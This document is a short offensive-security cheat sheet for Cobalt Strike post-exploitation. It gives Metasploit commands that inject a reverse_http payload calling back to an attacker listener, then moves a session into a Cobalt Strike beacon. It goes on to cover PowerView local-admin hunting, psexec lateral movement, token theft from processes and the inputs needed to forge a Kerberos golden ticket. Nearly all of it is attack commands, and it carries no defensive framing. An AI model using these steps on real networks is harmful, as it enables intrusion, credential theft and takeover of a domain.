 # Cobalt Strike

Move a meterpreter / metasploit session to Cobalt

```
in Cobalt
windows/beacon_http/reverse_http

in Metasploit
use exploit/windows/local/payload_inject
set PAYLOAD windows/meterpreter/reverse_http
set LHOST [IP of compromised system or cobalt IP]
set LPORT 80
set session 1
set DisablePayloadHandler true
exploit (-j)
```

View targets available from Initial Target

```
Right Click Target --> Explore -->Net View
```

Find where we are a local admin

```
beacon: powershell-import /root/PowerTools/PowerView/powerview.ps1
beacon:Invoke-FindLocalAdminAccess
```

Login to target where we are local admin

```
Right Click Target -->Login -->psexec (change Listener to SMB beacon)(choose a session)
(user session's current token)
```

Get token from processes

```
Right Click Target -->Explore-->Process List-->Steal Token
```

Create Multiple beacons on targets

```
Select the targets --> Right Click -->Login -->psexec --> choose a beacon with an elevated token-->
(user session's current token)-->Launch
```

Golden Ticket Generation

```
Need four items
1)User
2)Domain
3)Domain SID
4)KRBTGT Hash

shell whoami /user to obtain SID
```



